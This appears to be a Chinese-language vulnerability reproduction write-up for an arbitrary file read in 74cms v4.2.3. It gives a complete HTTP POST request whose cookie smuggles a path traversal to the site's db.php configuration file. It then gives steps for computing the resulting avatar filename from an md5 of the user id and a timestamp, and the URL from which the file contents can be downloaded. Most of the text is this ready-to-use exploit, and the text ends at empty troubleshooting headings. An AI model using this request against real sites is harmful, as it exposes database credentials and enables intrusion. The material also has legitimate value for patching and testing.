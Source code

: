 # 74cms v4.2.3 任意文件读取

## 一、漏洞简介
## 二、漏洞影响
74cms v4.2.3

## 三、复现过程
先尝试读取 db.php，向服务器post如下数据

```html
POST /index.php?m=&c=members&a=register HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
Content-Type: application/x-www-form-urlencoded

ajax=1&reg_type=2&utype=2&org=bind&ucenter=bind
```

会返回如下数据

1.png

在/data/upload/avatar/年月/日文件夹下 会生成一张图片

2.png

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp Suite上返回的时间转换为时间戳

3.png

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

4.png

成功获取图片名，然后访问

```html
https://www.0-sec.org/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg 
```

保存该图片用文本打开就是 db.php 的内容。

### PS:
使用post提交，参数如下

5.png

在Header可获取到时间戳

6.png

### 可能会遇到的问题
### post数据返回unicode编码

